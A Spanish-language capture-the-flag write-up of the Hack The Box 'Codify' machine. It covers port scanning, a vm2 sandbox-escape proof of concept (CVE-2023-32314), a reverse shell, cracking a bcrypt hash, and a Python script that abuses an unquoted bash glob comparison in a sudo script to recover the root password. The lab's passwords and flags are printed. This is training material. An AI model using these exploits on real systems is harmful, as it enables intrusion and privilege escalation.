

## Enumeration
Vamos a empezar con un escaneo `nmap`:

```bash
[Apr 25, 2026 - 13:47:12 (CEST)] exegol-htb Codify # nmap -p- --open -sS -n -Pn -vvv 10.129.26.84            
Starting Nmap 7.93 ( https://nmap.org ) at 2026-04-25 13:47 CEST
Initiating SYN Stealth Scan at 13:47
Scanning 10.129.26.84 [65535 ports]
Discovered open port 80/tcp on 10.129.26.84
Discovered open port 22/tcp on 10.129.26.84
Discovered open port 3000/tcp on 10.129.26.84
Completed SYN Stealth Scan at 13:47, 18.40s elapsed (65535 total ports)
Nmap scan report for 10.129.26.84
Host is up, received user-set (0.048s latency).
Scanned at 2026-04-25 13:47:12 CEST for 19s
Not shown: 65327 closed tcp ports (reset), 205 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.44 seconds
           Raw packets sent: 65933 (2.901MB) | Rcvd: 65330 (2.613MB)
```

Vamos a realizar un segundo escaneo para determinar que servicios y versiones corren en cada uno:
```bash
[Apr 25, 2026 - 13:48:01 (CEST)] exegol-htb Codify # nmap -p22,80,3000 -sCV 10.129.26.84                         
Starting Nmap 7.93 ( https://nmap.org ) at 2026-04-25 13:48 CEST
Nmap scan report for 10.129.26.84
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
```

Vemos que tiene el dominio `codify.htb` configurado, vamos a añadirlo a nuestro `/etc/hosts`:

```
10.129.26.84 codify.htb
```

### Website - TCP 80


Vemos que la aplicación ofrece posibilidad de probar nuestro código `Node.js` . Vemos el redirect a una página llamada `limitations` donde vemos lo siguiente:


Vemos que aquí nos dan información como módulos restringidos. Vemos que existe también la página `About Us` donde nos comentan algo bastante interesante:


Vemos que emplea `vm2` un sandbox seguro para ejecutar código JavaScript sin problemas. Algo interesante es que el enlace al que nos redirige es el siguiente:

- [https://github.com/patriksimek/vm2/releases/tag/3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16)

Vemos que puede que la aplicación web esté empleando la version `3.9.16` de `vm2`. Si vemos sus últimos reportes de seguridad podremos encontrar lo siguiente:
- [https://github.com/patriksimek/vm2/security/advisories/GHSA-whpj-8f3w-67p5](https://github.com/patriksimek/vm2/security/advisories/GHSA-whpj-8f3w-67p5)

## Shell as svc

Vemos que esta vulnerabilidad asignada con el `CVE-2023-32314`, donde existe la posibilidad de escapar del sandbox permitiendo el poder ejecutar comandos en el sistema.

El código que permite escapar del sandbox:
```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("id").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```


Vamos a enviarnos una reverse shell:


```bash
[Apr 25, 2026 - 15:27:17 (CEST)] exegol-htb Codify # nc -nlvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.26.84.
Ncat: Connection from 10.129.26.84:51396.
bash: cannot set terminal process group (1251): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ 
```

## Shell as joshua
### Enumeration
#### Home Directories
Si listamos el `/home/` podremos encontrar el siguiente usuario:
```bash
svc@codify:~$ ls -la /home/
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12  2023 .
drwxr-xr-x 18 root   root   4096 Oct 31  2023 ..
drwxrwx---  3 joshua joshua 4096 Nov  2  2023 joshua
drwxr-x---  4 svc    svc    4096 Sep 26  2023 svc
```

Vemos que existe el usuario `joshua`.

#### Apache2 Config
Para desplegar la aplicación emplea un proxy con Apache2, vamos a ver su archivo de configuración:

Vamos a listar los `.conf` existentes:
```bash
svc@codify:~$ ls -la /etc/apache2/sites-enabled/
total 8
drwxr-xr-x 2 root root 4096 Sep 14  2023 .
drwxr-xr-x 8 root root 4096 Sep 26  2023 ..
lrwxrwxrwx 1 root root   35 Apr 12  2023 000-default.conf -> ../sites-available/000-default.conf
```
Vemos que solo existe el archivo predeterminado de configuración de `Apache2`, vamos a leerlo:
```conf
<VirtualHost *:80>

        ServerName codify.htb
        ServerAdmin admin@codify.htb
        ProxyPass / http://127.0.0.1:3000/
        ProxyPassReverse / http://127.0.0.1:3000/

	RewriteEngine On
	RewriteCond %{HTTP_HOST} !^codify.htb$
	RewriteRule ^(.*)$ http://codify.htb$1 [R=permanent,L]

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

No vemos gran información, vamos a ver si la aplicación está guardada en `/var/www/`

#### Web Directories
```bash
svc@codify:/var/www$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 12  2023 .
drwxr-xr-x 13 root root 4096 Oct 31  2023 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12  2023 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12  2023 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```

Vemos 3 directorios:
- `contact` -> Desconocemos de su uso en la aplicación
- `editor` -> Aplicación posiblemente desplegada
- `html` -> Directorio predeterminado al instalar Apache2
### Editor Application
```bash
svc@codify:/var/www/editor$ ls -la
total 64
drwxr-xr-x  4 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x  5 root root  4096 Sep 12  2023 ..
-rw-r--r--  1 svc  svc   1461 Sep 12  2023 index.js
drwxr-xr-x 92 svc  svc   4096 Sep 12  2023 node_modules
-rw-r--r--  1 svc  svc    268 Apr 13  2023 package.json
-rw-r--r--  1 svc  svc  37562 Sep 12  2023 package-lock.json
drwxr-xr-x  2 svc  svc   4096 Sep 12  2023 templates
```
##### Source Analysis
Vamos a leer el `index.js`:

```javascript
const express = require('express');
const { VM } = require('vm2');
const bodyParser = require('body-parser');

const app = express();
const port = 3000;

app.use(bodyParser.json());

app.get('/', (req, res) => {
	res.sendFile(__dirname + '/templates/index.html');
});                       

app.get('/limitations', (req, res) => {
	res.sendFile(__dirname + '/templates/limitations.html');
});

app.get('/about', (req, res) => {
	res.sendFile(__dirname + '/templates/about.html');
});

app.get('/editor', (req, res) => {
	res.sendFile(__dirname + '/templates/editor.html');
});

app.post('/run', (req, res) => {
	const code = Buffer.from(req.body.code, 'base64').toString('utf-8');

	const vm = new VM({
		timeout: 5000,
		console: 'redirect', 
		sandbox: {
		 console: {
			log: (...args) => {
				var output_initial = args.map((arg) => String(arg)).join(' ');
				output.push(output_initial);
			},
		 },
			require: (moduleName) => {
				if (['child_process','fs'].includes(moduleName)) {
				throw new Error(`Module "${moduleName}" is not allowed`);
				}
				return require(moduleName);
			}
		},
	 });
	 
	 
	 try {
		var output = [];
		var output_initial = vm.run(code);		
		output.push(output_initial);

	
		res.json({ output : output.join('\r\n') })
	 } catch (error) {

		errMsg = error.message.split('\n')[0];
		res.json({  error : errMsg });
	 }
});

app.listen(port,() => {
    console.log(`App listening at http://127.0.0.1:${port}`);
});
```

Vemos que se trata de la aplicación vulnerable empleando una versión desactualizada de `vm2`, no vemos gran cosa como credenciales en texto claro o algo más interesante.

### Contact Application
Vamos a listar los archivos en el directorio `contact`:
```bash
svc@codify:/var/www/contact$ ls -la
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db
```

#### Database
Vemos una base de datos llamada `tickets.db`, vamos a acceder a ella con `sqlite3` y listar sus tablas:
```sql
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users 
```

Vamos a seleccionar todos los valores de las columnas existentes en la tabla `users`:
```sql
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Obtuvimos el hash del usuario `joshua`, vamos a identificar que tipo de hash es:


Vamos a hacer un ataque de fuerza bruta el hash para ver si es una contraseña débil:
```bash
[Apr 25, 2026 - 15:43:24 (CEST)] exegol-htb Codify # john -w /usr/share/wordlists/rockyou.txt joshua_hash --format=bcrypt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 24 [worst case UTF-8] to 72 [ASCII] truncated (property of the hash)
Proceeding with wordlist:/opt/tools/john/run/password.lst
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spongebob1       (?)     
1g 0:00:00:30 DONE (2026-04-25 15:44) 0.03291g/s 120.8p/s 120.8c/s 120.8C/s qazwsxedc..zxcvbnm1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Shell
Obtuvimos la contraseña `spongebob1` vamos a probarla por SSH:
```bash
[Apr 25, 2026 - 15:44:50 (CEST)] exegol-htb Codify # sshpass -p 'spongebob1' ssh joshua@codify.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Apr 25 01:44:51 PM UTC 2026

  System load:                      0.0
  Usage of /:                       64.0% of 6.50GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        237
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.26.84
  IPv6 address for eth0:            dead:beef::250:56ff:fe94:433d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Mar 27 13:01:24 2024 from 10.10.14.23
joshua@codify:~$ cat user.txt 
a828226cdc09d779fe1db29d7fb84003
joshua@codify:~$
```

## Shell as root
### Enumeration
Si hacemos un `sudo -l` podremos ver los siguiente:
```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Vemos que podemos ejecutar como el usuario `root` el script `mysql-backup.sh`

#### mysql-backup.sh
##### Source Analysis
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

El flujo del script es el siguiente:



### Vulnerability
Nos podemos fijar en un pequeño fallo y es que en el condicional emplea `[[]]` que nos permite el uso de operadores lógicos. Nuestro input recopilado en la variable `USER_PASS` vemos que se emplea en el condicional sin comillas:
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
[...]
```
En este caso podríamos usar cualquier operador, en este caso nos podría interesar emplear `*` ya que indica cualquier cadena. Entonces esto nos permite pasar del condicional sin sabernos la contraseña almacenada en `DB_PASS`. 

### Exploit
Vamos a probarlo:
```bash
joshua@codify:~$ echo "*" | sudo /opt/scripts/mysql-backup.sh 
[sudo] password for joshua: 

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```
Vemos que funciona! Esto al estar ejecutándose en el sistema podríamos usar `pspy` para ver el proceso y ver en texto claro las credenciales. Vamos probarlo:


Vemos en texto claro la contraseña que se está empleando que es `kljh12k3jhaskjh12kjh3` vamos a comprobar si es la contraseña del usuario `root`.

### su
```bash
joshua@codify:~$ su
Password: 
root@codify:/home/joshua# cat /root/root.txt 
56e3afd794fb6009d5c0a3f9a8559bf5
root@codify:/home/joshua# 
```

### Unintended
También podíamos obtener la contraseña abusando del estado del condicional. Ya que podemos montarnos un script que vaya carácter por carácter empleando `*` para englobar todo lo demás y ahí ir obteniendo la contraseña.

Para ello me monte el siguiente script en python:
```python
import string
import subprocess

characters = string.ascii_letters + string.digits + "_{}-"

data = ""

for i in range(1, 32):
    for char in characters:

        r = subprocess.run(
            f'echo "{data}{char}*" | sudo /opt/scripts/mysql-backup.sh',
            shell=True,
            capture_output=True,
            text=True
        )

        if r.returncode == 0:
            data += char
            print(f"[+] DATA: {data}")
            break
```
Vamos a probarlo:
```bash
joshua@codify:~$ python3 brute.py 
[sudo] password for joshua: 
[+] DATA: k
[+] DATA: kl
[+] DATA: klj
[+] DATA: kljh
[+] DATA: kljh1
[+] DATA: kljh12
[+] DATA: kljh12k
[+] DATA: kljh12k3
[+] DATA: kljh12k3j
[+] DATA: kljh12k3jh
[+] DATA: kljh12k3jha
[+] DATA: kljh12k3jhas
[+] DATA: kljh12k3jhask
[+] DATA: kljh12k3jhaskj
[+] DATA: kljh12k3jhaskjh
[+] DATA: kljh12k3jhaskjh1
[+] DATA: kljh12k3jhaskjh12
[+] DATA: kljh12k3jhaskjh12k
[+] DATA: kljh12k3jhaskjh12kj
[+] DATA: kljh12k3jhaskjh12kjh
[+] DATA: kljh12k3jhaskjh12kjh3
```